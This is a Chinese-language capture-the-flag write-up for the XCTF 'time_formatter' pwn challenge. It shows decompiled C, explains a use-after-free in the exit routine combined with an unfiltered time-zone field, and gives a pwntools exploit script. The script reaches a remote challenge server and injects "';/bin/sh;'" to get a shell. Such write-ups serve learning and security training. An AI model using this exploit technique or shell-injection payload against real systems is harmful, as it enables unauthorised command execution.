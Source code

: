 ### 1.攻防世界 time_formatter
```C
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __gid_t v3; // eax
  FILE *v4; // rdi
  __int64 v5; // rdx
  int v6; // eax

  v3 = getegid();
  setresgid(v3, v3, v3);
  setbuf(stdout, 0LL);
  puts("Welcome to Mary's Unix Time Formatter!");
  do
  {
    while ( 2 )
    {
      puts("1) Set a time format.");
      puts("2) Set a time.");
      puts("3) Set a time zone.");
      puts("4) Print your time.");
      puts("5) Exit.");
      __printf_chk(1LL, (__int64)"> ");
      v4 = stdout;
      fflush(stdout);
      switch ( get_choice_num() )
      {
        case 1:
          v6 = set_format();
          break;
        case 2:
          v6 = set_time();
          break;
        case 3:
          v6 = set_time_zone();
          break;
        case 4:
          v6 = print_time((__int64)v4, (__int64)"> ", v5);
          break;
        case 5:
          v6 = exit();
          break;
        default:
          continue;
      }
      break;
    }
  }
  while ( !v6 );
  return 0LL;
}
```
在case4这个函数调用中看到了这个东西。</br>
![time_formatter1](./pic/gfsj/time_formatter1.png)</br>
试试这个shell注入`';/bin/sh;'`</br>
![time_formatter2](./pic/gfsj/time_formatter2.png)</br>
&emsp;&emsp;&ensp;可以得到shell。想办法将这个字符串注入到ptr中，问题是这个set_format这个函数中存在过滤，不让使用单引号和分号。</br>
![time_formatter3](./pic/gfsj/time_formatter3.png)</br>
&emsp;&emsp;&ensp;不过好在还有一个set_time_zone函数不存在过滤，并且发现在exit函数中存在`UAF`漏洞.先free再判断是否退出。</br>
![time_formatter4](./pic/gfsj/time_formatter4.png)</br>
&emsp;&emsp;&ensp;那么思路就很明确了，先创建一个chunk，再free掉，再用set_time_zone把这个chunk取出,并且写入`';/bin/sh;'`，这个时候value和ptr指针都是指向这个chunk的，再调用print_time函数拿到shell。</br>
```python
#coding=utf-8
from pwn import *


io = remote('111.198.29.45', 58222)


context.log_level = "debug"

io.recvuntil("> ")
io.sendline("1")
io.recvuntil("Format: ")
io.sendline("a")
io.recvuntil("> ")
io.sendline("5")
io.recvuntil("Are you sure you want to exit (y/N)? ")
io.sendline('s') # 不是y都行
io.recvuntil("> ")
io.sendline("3")
io.recvuntil("Time zone: ")
io.sendline("';/bin/sh;'")
io.recvuntil("> ")
io.sendline('4')
io.interactive()
```
